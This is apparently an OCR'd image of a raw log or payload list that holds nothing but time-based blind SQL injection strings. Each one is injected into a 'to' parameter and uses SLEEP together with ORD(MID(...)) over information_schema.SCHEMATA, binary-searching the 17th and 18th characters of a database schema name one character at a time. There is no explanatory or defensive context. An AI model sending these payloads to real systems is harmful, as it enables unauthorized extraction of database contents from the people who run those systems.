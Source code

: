 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=109,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=98,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>98,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=97,SLEEP(0.155797244898),SLEEP(0))}
